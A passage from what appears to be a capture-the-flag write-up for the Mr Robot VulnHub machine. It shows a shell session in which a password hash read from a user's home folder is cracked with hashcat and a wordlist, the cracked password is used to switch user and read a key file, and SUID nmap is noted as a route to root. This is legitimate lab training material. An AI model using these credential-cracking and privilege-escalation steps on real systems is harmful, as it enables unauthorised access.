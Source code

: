 ```console
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2021/01$ 
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5cat password.raw-md5robot:c3fcd3d76192e4007dfb496cca67e13b
```

#### Cracking MD5 using hashcat

```bash
$ hashcat -m 0 files/password.raw-md5 /usr/share/wordlists/rockyou.txt
#...
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
#...
```

Now that we have his password, we can get `key-2-of-3.txt`'s content:

```console
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

### Road to `root`

I executed [linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to look for possible ways to get `root`. 

Surprisingly, there is `nmap` among the SUID binaries: 

![nmap SUID](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/nmap.png)

We can check on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) how we can perform a privesc:

![nmap interactive shell](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/nmap-shell.png)
